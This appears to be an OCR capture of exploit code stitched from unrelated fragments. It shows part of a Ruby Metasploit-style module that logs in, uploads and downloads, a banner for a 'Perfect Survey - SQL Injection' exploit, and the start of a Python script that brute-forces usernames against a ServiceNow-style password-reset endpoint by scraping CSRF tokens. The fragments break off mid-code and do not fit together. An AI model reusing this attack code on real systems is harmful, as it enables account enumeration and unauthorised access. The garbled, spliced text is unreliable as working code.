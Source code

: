 if res.nil?
  fail_with(Failure::Unreachable, 'Download request failed.')
end

if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

if res.headers['Content-Type'] == 'application/json'
  json_res = res.get_json_document

  if json_res['error']
    fail_with(Failure::Unknown, json_res['error'])
    return
  end
end

print_status res.body
  fail_with(Failure::BadConfig, warning)
end

try_login
try_upload
try_download
                            [+] Perfect Survey - SQL Injection
                            [@] Developed by Ron Jost (Hacker5preme)
with open ("users.txt", "r") as f:
    usernames = f.readlines()
    print (f"[+] Brute forcing ....")
    for users in usernames:
        url = "http://<redacted>/$pwd_reset.do?sysparm_url=ss_default"
        headers1 = {
            "Host": "<redacted>",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate",
            "Connection": "close",
            "Cookie": "glide_user_route="+glide_user_route+"; JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime[:-6]+"\'"
            }

        try:
            # s = requests.Session()
            # s.verify = False
            r = requests.get(url, headers=headers1, timeout=20, verify=False, proxies=proxies)
            obj1 = re.findall(r"pwd_csrf_token", r.text)
            obj2 = re.findall(r"fireAll\(\"ck_updated\"", r.text)
            tokenIndex = (r.text.index(obj1[0]))
            startTime2 = (str(time.time_ns()))
            # userTokenIndex = (r.text.index(obj2[0]))
            # userToken = (r.text[userTokenIndex+23 : userTokenIndex+95])
            token = (r.text[tokenIndex+45:tokenIndex+73])
            url = "http://<redacted>/xmlhttp.do"
            headers2 = {
                "Host": "<redacted>",
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",
                "Accept": "*/*",
                "Accept-Language": "en-US,en;q=0.5",